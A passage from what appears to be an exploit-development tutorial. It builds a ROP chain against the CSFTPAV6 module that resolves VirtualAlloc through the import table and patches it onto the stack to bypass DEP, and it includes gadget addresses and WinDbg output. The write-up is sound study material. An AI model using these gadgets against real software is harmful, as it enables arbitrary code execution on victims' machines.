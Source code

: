 This way, `eax` will contain the IAT address where `VirtualAlloc` is located. But we want to access such memory address to get the real location of the function. We manage to do this by referencing the register:
```c
rop += pack("<L", (0x5051f278)) # mov eax, dword [eax] ; ret
```
This way, the value inside `eax` (IAT pointer) is obtained and stored in `eax`. Now, `eax` contains the real address of VirtualAlloc:
```c
Breakpoint 0 hit
eax=5054a220 ebx=064fb018 ecx=5054a221 edx=77042da0 esi=0102e2f0 edi=00000000
eip=5051f278 esp=0102e33c ebp=51515151 iopl=0         nv up ei pl nz ac po cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000213
CSFTPAV6!FtpUploadFileW+0xe3da:
5051f278 8b00            mov     eax,dword ptr [eax]  ds:0023:5054a220={KERNEL32!VirtualAllocStub (76605680)}
0:002> p
eax=76605680 ebx=064fb018 ecx=5054a221 edx=77042da0 esi=0102e2f0 edi=00000000
eip=5051f27a esp=0102e33c ebp=51515151 iopl=0         nv up ei pl nz ac po cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000213
CSFTPAV6!FtpUploadFileW+0xe3dc:
5051f27a c3              ret
0:002> u eax
KERNEL32!VirtualAllocStub:
76605680 8bff            mov     edi,edi
76605682 55              push    ebp
76605683 8bec            mov     ebp,esp
76605685 5d              pop     ebp
76605686 ff2540b86676    jmp     dword ptr [KERNEL32!_imp__VirtualAlloc (7666b840)]
7660568c cc              int     3
7660568d cc              int     3
7660568e cc              int     3
```

We successfully jumped to the `VirtualAlloc` function! `eax` contains a pointer to this value.

## 3. Patching VirtualAlloc address with the obtained one
The last step is to replace the value we have in the location pointed by `esi`, which is the address in the stack that holds the dummy value of VirtualAlloc, for this obtained value.
If we think a bit, a `mov [esi], eax` gadget will be enough:
```
0x50524ea4: mov dword [esi], eax ; ret  ;  (1 found)
```
Let's add this gadget in our ROP chain and see the final value of the address pointed by `esi`:
```c
0:002> p
eax=76605680 ebx=066db7a8 ecx=5054a221 edx=77042da0 esi=00fbe2f0 edi=00000000
eip=50524ea4 esp=00fbe340 ebp=51515151 iopl=0         nv up ei pl nz ac po cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000213
CSFTPAV6!FtpUploadFileW+0x14006:
50524ea4 8906            mov     dword ptr [esi],eax  ds:0023:00fbe2f0=45454545
0:002> p
eax=76605680 ebx=066db7a8 ecx=5054a221 edx=77042da0 esi=00fbe2f0 edi=00000000
eip=50524ea6 esp=00fbe340 ebp=51515151 iopl=0         nv up ei pl nz ac po cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000213
CSFTPAV6!FtpUploadFileW+0x14008:
50524ea6 c3              ret
0:002> dds esi L1
00fbe2f0  76605680 KERNEL32!VirtualAllocStub
```
